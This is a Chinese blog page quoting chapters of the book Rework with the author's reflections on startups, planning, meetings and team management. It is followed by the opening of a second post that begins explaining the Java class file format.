#####  [2013年03月11日 ](https://coolshell.cn/articles/9156.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [152 条评论](https://coolshell.cn/articles/9156.html#comments) 117,360 人阅读

读了《Rework》这本书好多遍，每次读都有不同的感想。但从来没有把这些感想记录下来，今天把《Rework》书中的一些章节做一些摘录，并把我的一些感想总结出来。供大家参考。这是一本平生以来让我中毒很深的书，也是一本让我思考得很多的书。希望看到这篇文章的人都能好好地读读这本书。这本书并不难读，是一本你可以一口气不中断就可以读完的书。

目录


[现实世界](https://coolshell.cn/articles/9156.html#现实世界)[被高估的“从错误中学习”](https://coolshell.cn/articles/9156.html#被高估的从错误中学习)[计划就是瞎猜](https://coolshell.cn/articles/9156.html#计划就是瞎猜)[拒绝壮大](https://coolshell.cn/articles/9156.html#拒绝壮大)[工作狂](https://coolshell.cn/articles/9156.html#工作狂)[挠自己的痒处](https://coolshell.cn/articles/9156.html#挠自己的痒处)[“没时间”不是借口](https://coolshell.cn/articles/9156.html#没时间不是借口)[画沙为界，立场明确](https://coolshell.cn/articles/9156.html#画沙为界，立场明确)[找好退路无异于失败](https://coolshell.cn/articles/9156.html#找好退路无异于失败)[条件受限是好事](https://coolshell.cn/articles/9156.html#条件受限是好事)[与其做个半成品，不如做好半个产品](https://coolshell.cn/articles/9156.html#与其做个半成品，不如做好半个产品)[关注不变因素](https://coolshell.cn/articles/9156.html#关注不变因素)[会议有毒](https://coolshell.cn/articles/9156.html#会议有毒)[人人都得干活](https://coolshell.cn/articles/9156.html#人人都得干活)[拒绝照搬 & 将你的产品去商品化](https://coolshell.cn/articles/9156.html#拒绝照搬_将你的产品去商品化)[做得比对手少](https://coolshell.cn/articles/9156.html#做得比对手少)[谁在乎他们在干什么](https://coolshell.cn/articles/9156.html#谁在乎他们在干什么)[养成对客户说“不”的习惯](https://coolshell.cn/articles/9156.html#养成对客户说不的习惯)[不要攀客户的高枝](https://coolshell.cn/articles/9156.html#不要攀客户的高枝)[一夜成名只是传说](https://coolshell.cn/articles/9156.html#一夜成名只是传说)[员工不是13岁](https://coolshell.cn/articles/9156.html#员工不是13岁)

#### 现实世界

“这在现实世界里面行不通”，当你向人们介绍一个新创意时，人们总是这么回答你。这个“现实世界”听起来如此令人沮丧，……只有人耳熟能详，习以为常的事情才会胜利，即使是这些事情已经漏洞百出陈腐低效。

揭开“现实世界”这个锅盖，你会发现居住在里的人都充斥着悲观主义和失望的情绪。更糟的是，他们想将别人拖进他们的坟墓。如果你是充满希望和野心的人，他们会试着说服你，你的想法是不可能的。他们会说你在浪费时间。

**“现实世界”并不存在，那只是人的一个借口。只是某些人为了开脱 自己的无所作为，跟你一点关系也没有。**

> **感想**：我经常会向一同事和朋友提及一些我的想法，朋友同事们经常会回答我——这个事某某人，某某团队做过了，没成功。或是对我说，你做这个事的时候，要小心这个要小心那个。我觉得，这个时候是最考验我们的时候了，要有一个清醒的头脑去分析别人的话，别人真不代表自己。这个世界上大多数人都是比较保守的，大多数都对这个现实世界都有或多或少的恐惧感。当然，你可以选择做大众，但是如果你想让你的人生有些不同，有些精彩，我还是建议你不要和大多数人想得一样，**如果你和大多数人的想法一样，你必然会和大多数人一样的平庸**。当然，如果你和大多数人不一样，你要么就是天才，要么就是傻瓜。要证明你自己是不是傻瓜，我们可以看看我们过去有没有过一些小成功或小成绩。如果有，那么就应该大胆地坚持自己的想法。

#### 被高估的“从错误中学习”

你真的从错误和失败里面学到什么了吗？你也许学到了别再重蹈覆辙，但是这有什么意义吗？你仍然不知道接下来该做什么。


**相反的应该从成功中汲取养分。成功給予真正靠得住的教材。**

失败并不是成功的先决条件。自然规律是，**逗留在过去的失败中是无法进化的，进化是建立在成功的基础上的**。

> **感想**：我见过和很多人都在抱怨这不好那不好，但是他们其实并不知道什么是好的，因为——没有见过好的，你将永远不知道什么是好的。就好像你没有见过什么是汽车，你就只会整天在抱怨为什么骑自行车太累。回头想想我们的编程的这个过程也是一样，我们编程技能的提高基本上都是在看到别人的那些漂亮优雅的代码。所以，你一定要去看看那些优秀人干是怎么想的，怎么干的，去那些成功的公司开开眼界。另外，你应该多想想你过去做成功过什么事？那些才是你的长处，才是让你进化的前提。

#### 计划就是瞎猜

除非你是算命先生，长期的商业计划是种幻想。有太多的事实证明那是超出你的掌控的：市场环境、对手、顾客、经济等等。做计划让你觉得一切尽在掌握但实际上你没有。

**当你把计划变成猜测时，就等于进入一个危险的境地。做计划就是在用过去推导未来，等于给你戴上了眼罩。**

> **感想**：你有职业规划吗？如果你有的话，那么你就一定就错了。职业规划是一件很扯淡的事情。我和一些高手都交流过，其实这些人在当初都并不有什么职业规划的，要说有的话，也就是想把技术搞透搞精。这些人在一开始从来没有想过要当个什么经理或是什么架构师之类的东西，这些人就是对技术有非常大的热情，把身边的那些看得见够得着的事情做到好好地，并且保持不持续强大的好奇心努力地学习自己不懂的东西。一个坚定不移的决定和意志力会比任何的计划和职业规划都重要。**你问问自己，想不想当程序员，能不能一辈子都当一个程序员，能不能写程序写一辈子？**（关于做一辈子程序员这个事，大家可以看看我的[新浪微博](http://weibo.com/1401880315/zmebaF5tQ) ——*没哪个行业能像计算机行业这么活跃、刺激和有趣了。不仅是新兴工业革命的主力，又渗入到所有的行业中，干一辈子值了。//[@_你亲爱的偏执狂](http://weibo.com/n/_你亲爱的偏执狂): 程序员首先是工程师，Professional，就跟律师，医生一样，给大家解决问题；但是另一面呢，又是艺术家，创造新奇好玩的东西。这样的职业做一辈子有什么问题？*）

#### 拒绝壮大

规模越大你就得承受更大压力、需要更专业、拥有更强的能力。

**有没有注意到，一个小公司希望自己变大时，大公司却想要变得灵活变通**。记住，一旦你变大了就很难在不解雇人、不破坏士气、不改变你的整个商业路线的情况下收缩规模。

扩张不必成为你的目标。我们也不是仅在讨论你已有员工数。 还有花费、租金、IT 基础结构、设备等。这些事情不会碰巧发生。 你来决定是否承受这些。如果你决定去承受，你也将遇到新的头痛问题。花费那么多，你强迫自己构建一个复杂的生意，有一大堆困难而高压的事情要解决。

**小公司并不是一个起步，小公司本身就是一个伟大的目标。**

> **感想**：很多人都会以为拥有一支成百上千人的团队而成为一个成功的标志。就像很多朋友和猎头都会问我管多少人，当我说，我就管个十人不到的团队时，他们似乎都会觉得我很平庸。他们中的一些人基本上就不会再问我在干些什么了，因为他们可能觉得这么少的人都干什么大事呢？。当然，我说了他们也不一定听得懂。人多可能恰恰说明你可能在干一个劳动密集型的事情，这并没有什么可自豪的。真正自豪的不是在战争中用人海战术让大量的人去当炮灰，而是用一个小分队端掉敌军的军火库或指挥部。所以，**关键不是你有多少人，关键是你做的事是不是有非凡的意义，而且你用了最小当量的资源。这就好像建立一个高性能的网站一样，用成百上千的服务器不算本事，谁用的少才是本事**。

#### 工作狂

工作狂的行为不但没有必要，而且愚蠢至极。过多的工作并不代表你对项目更关注，也不代表你作了更多的贡献，这仅仅意味着你干了更多的活而已。**工作狂制造的麻烦比解决的麻烦多**。

工作狂往往不得要领。他们花大把大把的时间去解决问题，**他们以为能靠蛮力来弥补思维上的惰性，其结果就是折腾出一堆粗糙无用的解决方案**。

**如果你只是为了工作而工作，那么你就会丧失判断力。你的价值 观和决策方式都是扭曲**。你没有能力去判断哪些工作值得做，哪些工作该放弃，最后搞得自己筋疲力尽，而一个筋疲力尽的人是无法作出明智的决定的。

**工作狂不是英雄。他们不是在节约时间而是在浪费生命。真正的英雄早已想出了办法，搞定一切，然后回家了。**

> **感想**：这让我想到了那些为了冲业绩的业绩KPI的制订者们，很多时候，他们的价值观和决策真是的很扭曲的。他们生生地把一种技术密集型的工作变成了劳动密集型。**他们其实就是在拼命地训练客户需要的那匹“更快的马”，而从来没有想过要去造个更快的交通工具。**
>
> 另外，每当我在优秀员工的评比和员工的绩效考核中的跨团队比较中我们能听到很多很多的人说，XX员工工作任劳任愿，工作得很晚很晚，付出很大。老实说，我真的为这样的价值观感到悲哀。最后，我还想说说关于超时工作，我也经常学习和做自己的事情到深夜，我相信很多人也这样，但我们应该认真思考一下Rework中的这个观点，**我们超时工作是在使用蛮力呢？还是在使用热情和兴趣呢？**

#### 挠自己的痒处

想要创造一款伟大的产品或者是某项卓越的服务，最直接、最简单的方法就是去做你自己想用的东西。设计你了解的产品——你就能很快发现它到到底好不好用。

**最棒的是，“解决你实际遇到的问题”会让你爱上你做的事情**。 你知道问题所在并且熟知解决它的价值。这是无法替代的。毕竟，你会充满希望的在接下来的日子里继续做。 甚至会占据你余生所有时间。所以，最好还是做自己真正关心的东西。

> **感想**：这就是吃自己的狗食，做自己感兴趣的事。软件项目中，我最恨的就是那种闭门造车造出来的自己都不用的东西（不是从已有业务生长出来的东西），以及那些自己不动手就在边上指指点点的各种咨询师或是喜欢动用行政命令的高层管理者。
>
> 但是，在这里，我更想说说我所理解的另一层“挠自己痒处”——有天我和一前前同事聊天，她说她在那家公司十多年了，现在老了，虽然心不老还想折腾，但是对自己的能力没自信，求稳了。我听到很多朋友想对自己有个改变，比如有QA的同学想做开发，有生活在内地的朋友想来大城市的大公司里有更爽的经历，**这些人明明想活得更有激情，但最终在现实面前认命妥协。我说既然有痒处，还比较痒，那就应该毫不犹豫革自己的命，轰轰烈烈地活一次**。别等老了后悔当年没有勇气。“挠自己痒处”就是挑战自己，革自己的命，既然想了，就做吧，生命只有一次，值得我们轰轰烈烈地去为之付出。

#### “没时间”不是借口

人们最常用的借口是：“时间不够。”他们宣称很想开一家公司，学一种乐器，写一本书，等等，但时间不够用。拜托，如果你善加利用，时间总是有的。

把看电视或玩魔兽的时间腾出来完成你的创意；把10点上订改成11点上床，这不是怂恿你通宵达旦或是一天干足16个小时——我们要说的是，第周匀出一些业余时间来，就足够你去做些事情了。

当你拥有某种强烈的渴望时，你就能挤出时间来——不管你身上是否背负着其他责任。**事实上，真相是大多数的渴望并不是那么强烈。于是他们拿时间当借口来自我开脱。别给自己错口。**

另外，永远会有正当其时的时候，你总会觉得自己会么太年轻，要么太老，要么太忙，太穷，或是别的什么原因。**如果你总是为遇到一个完美时机而发愁，那么，完美的时机绝对不会到来**。

> **感想**：我在“[挑战无处不在](https://coolshell.cn/articles/7048.html)”中也表达过这样的观点，**关于热情和态度，说白了就是不要给自己找借口**。比如：“工作忙事多没时间学所以可以不懂”，“工作中没用到所以可以不懂”，“工作没有挑战，一直没有遇到合适的项目”等等。而且，如果你只能在万事俱备的情况下才能做事，那么，你还有什么价值呢？人的价值和竞争力就是在条件并不完美的时候还能搞定事情。

#### 画沙为界，立场明确

坚定的信念能为你赢得超级粉丝，他们会为你马首是瞻，会舍身保护你，他们充满激情的口碑传播将胜过这世间一切的广告。

强大的主见，也是要付出代价的，在这个过程中，会有人诋毁你，说像傲慢，冷漠。没办法，这就是人生，有人喜欢你，就有人憎恨你。如果你的说法没有引起任何人的心烦意乱，只能说明你的推广力度可能还不够。（也可能代表你比较无趣）

**对我们来说，我们的产品所不能处理的和我们的产品所能处理的一样令人感到骄傲**。

我们的产品不适合每一个人，没有关系，我们愿意为了那些更加深爱我们的客户而放弃另一部分客户。这就是我们的立场。

> **感想**：我从来不想做一个大众脸。酷壳上有很多比较有争议的文章，也有很多人说我很极端，偏执，有优越感，清高……，说什么的都有，无所谓。我有一个做新闻编辑的太太，主辑要求文章要客观和没有观点，不温不火，本来好好的一篇有观点的文章被编辑过后只剩下了一堆食之无味的文字。**我喜欢有鲜明的观点，因为鲜明的观点和立场能不但能让文章鲜活起来，而且还能迎来更多的不同意见和更多的思考**（而不只是“顶”“赞”之类无意义的回复）。我并不希望我的观点是正确的，我只希望能和更多的人加入我一同思考，而思考最佳的催化剂就是争论。我从这个行为中收益到了很多很多。

#### 找好退路无异于失败

你还常常听到：“你的退出战略是什么？（万一不成功，你怎么办）”甚至在你刚开始启动时就听到它。这些人不知道怎么开始就要想到怎么结束？急什么呢？如果在全情投入之前就想怎么撤出，这种逻辑不是一般的混乱。

你正打算恋爱一场就计划着分手？你在第一次约会时就签订婚前协议？你会在婚礼早上先约见离婚律师？那也太荒谬了吧。

**你需要的是承诺战略而不是退出战略。你要考虑的是你的项目怎样发展和成功，而不是怎样撤退**。如果整个战略是基于撤退的，一开始你就不会有机会成功。

> **感想**：几年前，我有一个朋友被创新工场忽悠从美国退学回来创业，我非常质疑他退学创业这个事。他对我说，没事，反正就算失败我也不会失去什么。还有一个朋友一年前从美国回国创业，也对我说，就算没搞好也没什么。我都对他们说，如果你以为用试一试的态度就可以把一个事情搞成功，那么你让这世上那些Full Time全天候从事这个事情的并有一些积累的人情何以堪？如果你创业时都想好了失败，那就说你你对这个事没有必胜的信心，也说明连你自己都不相信这个事，你还干个什么劲啊？**你与其把时间用在思考如果创业没成功你会怎么办上，你还如去思考一下如何做才有更大的胜算**。

#### 条件受限是好事

“我没有足够的时间、钱、人手、经验”。不要现无谓的抱怨了。“少”不是什么坏事。“条件受限”貌似缺陷，实力优势。有限的资源能激发你在现有的条件下完成任务的能力。没有一点浪费空间，一切都需要你发挥最大的创造力。

你见过囚犯用肥皂和汤勺制作武器吗？你们是“创新”的典范。只有在条件受到限制时，我们才会发挥出“小材大用”的能力。

> **感想**：我相信这世上很多事情都是被条件受限逼过去的。我回想到我以前经常在干的性能调优，想尽一切办法榨干系统资源这件事上，我就无法不赞同这句话。想想淘宝的TFS，就是一个因为条件受限到了不得不自己干的时候，被逼出来的东西。如果你没有足够多的人，你才会去想要怎么去优化工作和开发效率，于是才会逼着你去开发一些自动化的工具，而这些工具恰恰解放了生产力可以让你更快地干更多的事。**只有条件受限，才会从劳动密集型中激发出知识密集型的东西**。再回到以前我的那篇“[是否需要专职的QA](https://coolshell.cn/articles/6994.html)”一文说的到东西，如果你有很多很多帮你做测试的QA，你就不会去测试，你的团队也就不会有自动化测试等工具。这就好像在中国这个劳动力又多又廉价的大国下，基本上不需要你在技术上的创新，你只需要去不断地迁就这些低端用户，迁就这些用户越多，你还能有什么重大创新吗？真正的创新是帮助用户成长，而不是迁就用户。

#### 与其做个半成品，不如做好半个产品

同时做N件事的结果就是：一大把绝妙的点子最后被转化成一个蹩脚的产品。

有舍才有得，砍掉多余的野心，你就会发现慢慢做一件正事要胜过毛毛躁躁地做一堆傻事。

很多东西都是越简短越好。拿起斧子动手砍吧，为了一个“伟 大”的起点，让我们把那些“挺不错”地枝节给砍掉吧。

> **感想**：这正如“[为什么中国的网页设计这么烂](https://coolshell.cn/articles/3605.html)”中说的：“中国的学生只是去记忆东西而不是真正的理解。他们从来不花时间去思考，而只是贪婪地去获取更多的信息”。与其记忆那么多的东西，还不如好好理解部分的东西。还有一种说法是：“Done is better than Perfect!”，这句话某些时候说得也挺对的，尤其是对于那些完美地长期不能Done的项目。但是Done一个Ugly的东西还不如不做。所以平衡Done和Perfect的方式正好就是这句话——“与其做个半成品，不好做好半个产品”，因为，**一个半成品会让人绝望，而半个好产品会让人有所期望，这就是其中的不同**。

#### 关注不变因素

**很多公司和人都关注即将到来的大事件。他们热衷于新鲜热辣的事物，追逐最新的潮流和技术**。

这是一条愚笨之路。一旦走上这条路，你就会关注时髦、放弃本质，把注意力放到不断变化的事物上，而不是持久不变的事物上。

你的事业的核心应该建立在不变的基础之上。**你应该投资于那些人们现在需要，并且十年后仍然需要的事物上**。

要记住，时尚会凋零。只有当你聚焦于长久的功能时，你才会发现自己把握住了永不落伍的东西。

> **感想**：一年多前，我在《[来信、创业和移动互联网](https://coolshell.cn/articles/5815.html)》中谈到过那个时尚的“移动互联网”，说了四个方向：阅读，分享交流，电商，推荐/提醒。大家可以看到现在地铁上已经不像以前很多人都在看报纸了，而是很多人都在看手机。而手机端的社交（分享和交流），电子商务，以及很多推荐、提醒都越来越火了。这些东西都是都是“常量”——十年前存在，未来十年也会存在，我们看到很多人太过着眼于手机上的应用，而不是那些不变的因素。今天还有两个巨火无比的流行词，一个是云计算，一个是大数据，那些一听到这两个词就会兴奋的人，我不知道他们有没有真正理解这两词？他们真正理解了云计算其实就是那个N多年前就提过的IT服务，关于大数据，我完全不知道为什么会火，你会因为听到中国人口有13亿你就会兴奋吗？老鼠的数量比较这个更多呢，呵呵。其实，数据无所谓大小之分，只有好数据和烂数据之分，还热数据和冷数据之分。十年前有两个更为流行的词：一个是计算网格，一个是数据网格，这两个词5年前就凋零了，今天的云计算和大数据，有多少人意识到了其中有什么相通的，或是其中的不变因素是什么？**大数据和云计算其实都在描述两个东西，一个是超大规模的计算能力，另一个则是服务。还有一个词是“平台化”，这可能被大家忽略了，通过平台进行计算和数据服务，这才是那计算机存在以来基本不变的东西，无论你是移动互联网，还是互联网，不管是云计算，还是大数据，都需要一个平台提供服务**。

#### 会议有毒

世人最可恨的打扰莫过于开会。原因是：

- 会议中充斥着纸上谈兵和抽象的概念，大多是不切实际的。
- 会议中能传达的信息量少之又少。
- 人们在会议中容易跑题，堪比暴风雪里的芝加哥出租车还容易迷失方向。
- 会议要求做充分的准备，但是大多数人没有时间准备这些。
- 会议制定的议程常常是模糊的，根本就没有人真正清楚目标是什么。
- 会议中难免会轮到那么一两个低能人士发言，于是大家的时间都浪费在他们的扯淡上了。
- 会议具有自我繁殖功能。一次会议总能导致另外一次，以及再导出下一次，生生不息……

> **感想**：这世上除了“他爹的TDD”开发模式，还有“他妈的TMD”开发，就是Team Meeting Driven，很多公司有太多太多的会要开了，开会基本上成了每天工作最主要的东西，对于一些管理者来说一星期中居然有80%时间都在开会。其实，这么多的会议并不意味着你在管理，只是意味着你对要管的东西完全不知道，需要通过开会来了解。很多会完全是没有议题的，大家坐在一起东拉西扯，非常非常地低效。我通常把这种会叫做“神仙会”，用个流行语来说，就是Cloud Meeting，大家神一要的各说各的，似乎，没有这种形式，不能证明参会者的存在，用会议来证明他们的存在，相当的可笑。对我来说，**如果只是带一个或几个问题来开会，简直是就是扯谈，如果对于问题没有几个备选的解决方案和各方案的评估，完全没有必要开会**。Amazon的会议是不会有PPT的，会议组织者会要要讨论的东西写好并打印出来，在会前给参会者把要讨论的东西打印出来，开会前10分钟左右，会场里没有任何声音，每个人都在读文档，全部人读完后，直接对议题发表自己的个人意见应该怎么干，然后很快形成共识，散会。

#### 人人都得干活

在一个小团队里，你需要的是干活的人，而不是监工。每个人都得做事，没有人可以袖手旁观 。

这意味着你在招聘中要避免招到监工型的人物，这些人喜欢对别人谆谆教导。对于小团队来讲监工型的人就是累赘。

监工们还喜欢把人拖去开会。实际上，会议是监工们最好的朋友，因为只有在开会时才显得出他们的重要。

> **感想**：**为什么会有办公室政治，那就是因为这个公司里有一部分人不干活，不做事，**于是，他们就有大量地时间开始胡思乱想，他们花大量的时间不是想怎么去做事，而是想自己怎么更容易的打垮别人得到上面的认可，从而得到晋升。在大公司中这样的情况会比Startup的公司多得多。所以，如果你不想滋生办公室政治，那么你需要干两个事，第一个是最好不要变成大公司，第一个是让每个人都在实干。我最近看到其大公司，虽然很多东西不规范，而且很多东西在野蛮生长，有些事情也有点土，但绝大多数人都在实干，所以，只要每个人都在实干，就算干的方式不好，干出来的东西有问题，也比那些滋生办公室政治的公司强上几百倍

#### 拒绝照搬 & 将你的产品去商品化

有时候，照猫画虎也是一种学习过程，就好像艺术系的学生通过临摹美术馆的作品来学习绘画。当你还是一个学生时，这种模仿是一种很有效的学习工具。不幸的是，商业战场上的模仿却不招人待见。而这也意味着你打算通过当盲从者或抄袭者的方式来建立你的事业，这注定是一个失败模式。

模仿的问题在于，简单的复制扼杀了深层的理解——而理解才能激发成长。你不但要知其然，还要知其所以然。而当你复制时，你会忽视这一点。你照搬的只是表面，而不是本质。

一旦你扬名立万，模模仿者会蜂拥而至，这就是生活。但你可以用一种绝佳的方式来保护自己不被 他们吞没：让你自己成为你的产品或服务的一部分。

> **感想**：在《[抄袭，腾讯 和 产品](https://coolshell.cn/articles/7617.html)》中我谈到过这个事情，虽然我对抄袭和山寨很反感，但是我不得不承认这是这个世界的一部分，好的东西总是会被人复制的，这也不一定是一个坏事，这会让你更清楚认识到什么是真正产品的价值，什么是核心竞争力，你但凡有一点急功近利的想法你都要想一想那堆抄袭者，其中还不乏有钱有人的专业抄袭的公司。而面对被抄袭这样的事情，最好的解决方法是着眼着远期而不是短期——**如果你着眼短期，你无疑会面对众多的抄袭和模仿者让你万劫不复，但是，如果你着眼长期，做一个3-5年需要花费大量精力才会成熟的产品，那么，那些急功近利的抄袭者会知难而退的，因为长期并不符合抄袭者的价值观**。

#### 做得比对手少

传统智慧告诉我们，要想打败竞争者就要胜人一筹。如果人家有 4 个功能，你就得 5 个（或者 15 个，25 个）。如果人家花了$20,000，你就得花 $30,000。如果人家有 50 个员工，你就得要 100 个。

这样的冷战式的攀比思维会把人引上绝路。一旦被卷入“军备竞赛”，你就陷入了一场无止境的战争，这场战争会让你耗费大量的金钱、时间和动力。并且使你陷入长期的防御战中。处于防御状态的公司是没有预见力的；他们只能后知后觉，他们无法领跑，只能尾随。

那么你应该怎么做呢？比你的竞对手做得少，以此来打败他们。**让自己去解决简单的问题，把那些纠结的、麻烦的、艰难的、讨厌的难题留给竞对手去解决**。不要总想着去胜人一筹、去超过别人，试试相反的做法。

不要因为你的产品或服务不如别人的花哨就感到自惭形秽。把他们做得醒目高调，并引以为傲。就像对手那些强有力的销售他们多功能的产品一样销售你那简约的产品。

> **感想**：一个最典型的例子就是iPad，它干得比Laptop少，比上网本少，就是一个很简单的上网和简单游戏的设备，但是他有非常简单的用户体验，让两三岁的儿童和六七十岁的老人都能很快上手。你相信吗？我花了好多年都没教会我父母用电脑以及手机里除了电话功能外的其它功能，但我只花了10分钟就教会他们使用iPad上网了。这就是“做得比对手少”的强大。**只有简约的东西，才会显得更精致，才会显得更专业**。

#### 谁在乎他们在干什么

不管怎样，终究是不值得过于关注你的竞争者。为什么？因为**关注别人太多会让自己受到困扰**。他们现在在做什么？他们下一步呢？我们该怎样作出回应？

每一个小小的动作都会被分析一下。那是一种可怕的心态。这会产生不可抗拒的压力和焦虑。这样的想法会滋长不好的东西。

这是没有意义的事情。竞争者的风景时时在变。你的竞争对手明天一个样儿，今天一个样儿。完全在你控制之外。去担心你所不能控制的事情有意义吗？

过于关注竞争者会混淆你的视野。当你一直吸收别人思想时， 你的机会则会减少。你变得反动而不是充满想象力。你只不过是将你竞对手的产品换了个包装。

如果你打算做一个“the iPod killer”或“the next Pokemon”，你已经死了。你是在承认你的竞争者所设定的参数。你没有跳出 Apple 的套路。他们制定了这个游戏规则。你不可能打败制定规则的那个人。你必须重新制定一个规则，而不是稍微改建一点点。

> **感想**：这个社会浮躁之处就在于我们太多的观注了别人，人比人气死人。我们很多人都注意到了别人的风光，看到别人创业被注资，看到别人找到了好的工作，看到了别人不走正道而发达，看到了别人很轻松还挣得多，甚至看到别人的粉丝比自己多，等等，等等，这些东西让自己的心态变，变得非常地不淡定了。眼红也是魔鬼，因为眼红让人心理扭曲了的例子还少吗？**不要在乎别人干了什么，你应该多看看自己的长处是什么，每个人都有每个人的路，你要做的是按照自己的节奏和自己擅长的方式行事，而不是小猫钓鱼**。

#### 养成对客户说“不”的习惯

说“好的”很容易。我们很容易接受同意一个新功能、同意一个过于乐观的截止日期、笑纳一个平庸的设计。很快，一大堆你曾经说“yes”的事情就发生连锁反应，很多你不想要的东西越堆越高，甚至你都看不出原来想要的东西。

别相信“顾客永远是对的”这类的话。如果你是一个大厨，你的很多客人说你做的菜太咸或者太烫，你可以改。但是如果有一些挑剔的老主顾要求在宽面条里面加些香蕉，你千万不要理会他们，没关系。若是为了少数顾客的要求而毁了产品不值得。

**你的目标是确保你的产品与就是和你合拍的产品，你就是你自己产品最踏实的粉丝。你是最信赖它的那个人**。那样的话，你会说：“我想你也会爱它的，因为我爱它。”

> **感想**：亨利福特说过：“如果我要问我的客户要什么，他们会告诉我他们要一匹更快的马”，所以，过份的迁就用户并不是一件好的事，相反会是一件很不好的事。互联网和电视节目一样都有一个万恶的KPI，电子节目那万恶的KPI是收视率，而互联网的万恶KPI是流量。于是**很多公司为了流量开始不择手段，就像电视节目用庸俗化来提高收视率一样，我们的一些互联网产品也使用庸俗化的东西来提高流量。我们要做的是一个让人称道的有品质的产品，而不是一个只有访问量的产品**。

#### 不要攀客户的高枝

也许你曾经见过这样的场景：一个顾客向一家公司投了很多钱。这家公司想要尽可能的取悦那个顾客。为了迎合这个客户的要求而改变自己的产品，渐渐地，你的产品就会脱离普遍客户的基础。

而且，突然有一天，这个大客户绝尘而去，公司则会背负一个包袱——这个产品是围绕着一个已经离开了的人设计的。而其他人没法用。

人在变，环境在变，你不可能满足所有人的所有要求。**公司要对某一类型的客户全情投入，而不是对某个善变的客户唯唯诺诺**。

> **感想**：你永远要找到自己的定位，你不可能满足所有的人。就像屌丝们喜欢的北京的动物园批发市场和高富帅们喜欢的北京燕莎商场一样，他们分别定位于不同的用户。你的产品从生下来的那一时刻就应该需要做好定位，是面对什么样的人群。而且，你也不可能实现所有人的需求的。有时候，失去一些客户并不是坏事，**我们要做的是管理我们的客户，让客户认同我们，而不是被客户牵着走**。

#### 一夜成名只是传说

你不会瞬间大红大紫，也不会一夜暴富，你所了解的那些道听途说的“一夜成名”的故事，深挖一点，你就能发现这些成功人士在到达引爆点之前，都已经在这个方向 上苦熬了很长时间。

把一夜成名的迷梦换成一步一个脚印的成长行动吧。道路很艰难，但你必须充满耐心。你得用功去做，在遇到伯乐前，你得努力很长时间。

> **感想**：这和我在[程序算法与人生选择](https://coolshell.cn/articles/8790.html)一文中所说的那个最短路径的算法的类比一样，与其展望要当什么架构师或是要成为牛人的憧憬，不如把身边看得见够得着的东西学扎实，干出色。一夜成名只是一个传说，你知道酷壳是因为我写十多年的博客，你知道我是因为我积累了十多年的编程，看看酷壳以前介绍过的[王平同学](https://coolshell.cn/articles/5651.html)吧。**很多事情都不是偶然的，都是有前兆的，还是我[以前说过的那句话](https://coolshell.cn/articles/7048.html)，“如果一件事情以前没有发生过，未来也不会发生”，比如：如果你在学校里，在工作里，你的同学和同事并不经常来向你请教询问你的意见，那么你基本上很难成为一个Leader**。

#### 员工不是13岁

**当你把员工当孩子看时，人们就会像孩子一样行事**。

当公司里事事都要上报审批时，你就创造出了一种无脑文化。你成功地制造出了老板和员工之间的对立关系。这种关系在咆哮着：“我不相信你！”

当你处处限制员工，比如禁上他们在上班时访问外部网站或是开小差，你会得到什么好处？什么也得不到。人们需要开小差，这有助于打破整日的枯燥单调，花点时间上上Youtube或Facebook不会失去什么。

如果你要监控你的员工，你得想想你要花多少时间和金钱来监管员工。你浪费了多少钱去安装监控软件？你浪费了多少人力资源去监视员工？你浪费了多少时间去写没有人会看的规章制度？**看看这些成本，你很快就发现，对员工的不信任才是最大的开销**。

> **感想**：我始终在跟我的团队成员说，最有效的管理就是自己管理自己，而不是还要专们的人来管你。不然的话，你一定会很难受的。如果你能管理好你的工作和任务，我们就不需要项目经理。如果你能管理得好你的做事的方法和流程，就不需要那些搞流程的。如果你能管理得好你的程序质量，我们就不需要QA来监管你…… 等等。**其实，你们如果能管理得好自己，并能自我进化。你们甚至不需要一个经理。但是，你们可能会需要一个为你们跑腿打杂的人，其实，那个人就是经理**。

（全文完）

# 实例分析JAVA CLASS的文件结构

#####  [2013年03月05日 ](https://coolshell.cn/articles/9229.html) [Tiger.Zhou](https://coolshell.cn/articles/author/tiger-zhou) 评论 [48 条评论](https://coolshell.cn/articles/9229.html#comments) 51,908 人阅读

**【感谢网友 @[Krq_Tiger](http://weibo.com/xmuzyq) 投稿】**

今天把之前在Evernote中的笔记重新整理了一下，发上来供对java class 文件结构的有兴趣的同学参考一下。

学习Java的朋友应该都知道Java从刚开始的时候就打着平台无关性的旗号，说“一次编写，到处运行”，其实说到无关性，Java平台还有另外一个无关 性那就是语言无关性，要实现语言无关性，那么Java体系中的class的文件结构或者说是字节码就显得相当重要了，其实Java从刚开始的时候就有两套 规范，一个是Java语言规范，另外一个是Java虚拟机规范，Java语言规范只是规定了Java语言相关的约束以及规则，而虚拟机规范则才是真正从跨 平台的角度去设计的。今天我们就以一个实际的例子来看看，到底Java中一个Class文件对应的字节码应该是什么样子。 这篇文章将首先总体上阐述一下Class到底由哪些内容构成，然后再用一个实际的Java类入手去分析class的文件结构。

在继续之前，我们首先需要明确如下几点：

1）Class文件是有8个字节为基础的字节流构成的，这些字节流之间都严格按照规定的顺序排列，并且字节之间不存在任何空隙，对于超过8个字节的数据，将按 照Big-Endian的顺序存储的，也就是说高位字节存储在低的地址上面，而低位字节存储到高地址上面，其实这也是class文件要跨平台的关键，因为 PowerPC架构的处理采用Big-Endian的存储顺序，而x86系列的处理器则采用Little-Endian的存储顺序，因此为了Class文 件在各中处理器架构下保持统一的存储顺序，虚拟机规范必须对起进行统一。

2） Class文件结构采用类似C语言的结构体来存储数据的，主要有两类数据项，无符号数和表，无符号数用来表述数字，索引引用以及字符串等，比如 u1,u2,u4,u8分别代表1个字节，2个字节，4个字节，8个字节的无符号数，而表是有多个无符号数以及其它的表组成的复合结构。可能大家看到这里 对无符号数和表到底是上面也不是很清楚，不过不要紧，等下面实例的时候，我会再以实例来解释。

明确了上面的两点以后，我们接下来后来看看Class文件中按照严格的顺序排列的字节流都具体包含些什么数据：




（上图来自The Java Virtual Machine Specification Java SE 7 Edition)

在看上图的时候，有一点我们需要注意，比如cp_info，cp_info表示常量池，上图中用 constant_pool[constant_pool_count-1]的方式来表示常量池有constant_pool_count-1个常量，它 这里是采用数组的表现形式，但是大家不要误以为所有的常量池的常量长度都是一样的，其实这个地方只是为了方便描述采用了数组的方式，但是这里并不像编程语 言那里，一个int型的数组，每个int长度都一样。明确了这一点以后，我们在回过头来看看上图中每一项都具体代表了什么含义。

